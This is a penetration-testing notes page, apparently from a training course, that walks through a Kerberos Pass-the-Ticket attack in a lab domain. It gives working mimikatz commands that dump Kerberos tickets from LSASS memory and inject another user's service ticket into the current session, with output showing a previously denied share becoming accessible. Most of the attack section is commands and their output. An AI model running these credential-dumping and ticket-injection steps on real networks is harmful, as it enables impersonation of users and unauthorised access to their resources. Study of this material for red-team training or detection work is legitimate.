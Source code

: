 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pass-the-Ticket

The **Pass-the-Ticket (PtT)** attack exploits Kerberos TGS to impersonate users and access resources across a network. Unlike the TGT, which is machine-bound, TGS can be extracted from memory and re-injected into another session. If TGS tickets belong to the current user, no administrative privileges are needed. This allows attackers to bypass standard access controls by injecting valid Kerberos tickets into their own session.

* **TGT vs TGS:** TGT tickets are used to request service tickets from the KDC and are valid only on the machine they were generated on, while TGS tickets are for accessing specific services and can be reused across machines if extracted.
* **Attack Premise:** Reuse another user's TGS by extracting it from LSASS memory and injecting it into the current session. Does **not** require local admin rights if using the current user’s own tickets.

In our scenario, `dave` has privileged access to the `backup` folder on `WEB04`, but the compromised user, `jen`, does not.

```powershell
# Check jen's permissions
> whoami
corp\jen
> ls \\web04\backup
ls : Access to the path '\\web04\backup' is denied.
```

First, we want first to extract all tickets from LSASS. `mimikatz` will dump them all to `.kirbi` files.

```
# Dump tickets from LSASS
privilege::debug
sekurlsa::tickets /export
...
Saved to file [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```

We can inspect the dumped ticket files and confirm that a TGS for `dave` accessing `web04` exists.

{% code overflow="wrap" %}
```powershell
> dir *.kirbi
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/14/2022   6:24 AM           1561 [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
...
```
{% endcode %}

We can then inject `dave`'s `WEB04` TGS into `jen`'s session in order to access the `backup` folder.

```powershell
# Inject dave's TGS into jen's session
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

# List the cached tickets
> klist
...
Cached Tickets: (1)

#0>     Client: dave @ CORP.COM
        Server: cifs/web04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40810000 -> forwardable renewable name_canonicalize
        Start Time: 9/14/2022 5:31:32 (local)
        End Time:   9/14/2022 15:31:13 (local)
        Renew Time: 9/21/2022 5:31:13 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

# Confirm access
> ls \\web04\backup
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/13/2022   2:52 AM              0 backup_schemata.txt
```
